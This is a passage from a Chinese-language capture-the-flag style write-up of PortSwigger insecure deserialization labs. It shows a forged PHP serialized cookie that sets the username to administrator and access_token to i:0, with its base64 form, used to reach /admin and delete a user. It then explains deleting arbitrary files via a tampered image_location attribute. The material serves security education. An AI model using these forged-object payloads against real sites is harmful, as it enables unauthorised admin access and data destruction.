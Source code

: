```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"dnmro0gmqljk8lfueuotjz5of1t950b1";}
```

怎么修改这个 Cookie 呢？先把 wiener 改为 administrator，再把 access_token 字段的内容改为 i:0 试试

```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```

接下来 base64 编码 修改后的内容 替换 cookie 来 访问 `/admin` 与 `/admin/delete?username=carlos`

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
```

<img src=".\图片\Snipaste_2023-08-05_12-55-48.png" alt="Snipaste_2023-08-05_12-55-48" style="zoom:80%;" />

## Lab3

### 前置

When working directly with binary formats, we recommend using the Hackvertor extension, available from the BApp store. With Hackvertor, you can modify the serialized data as a string, and it will automatically update the binary data, adjusting the offsets accordingly. This can save you a lot of manual effort.

#### Using application functionality

As well as simply checking attribute values, a website's functionality might also perform dangerous operations on data from a deserialized object. In this case, you can use insecure deserialization to pass in unexpected data and leverage the related functionality to do damage.

For example, as part of a website's "Delete user" functionality, the user's profile picture is deleted by accessing the file path in the `$user->image_location` attribute. If this `$user` was created from a serialized object, an attacker could exploit this by passing in a modified object with the `image_location` set to an arbitrary file path. Deleting their own user account would then delete this arbitrary file as well.
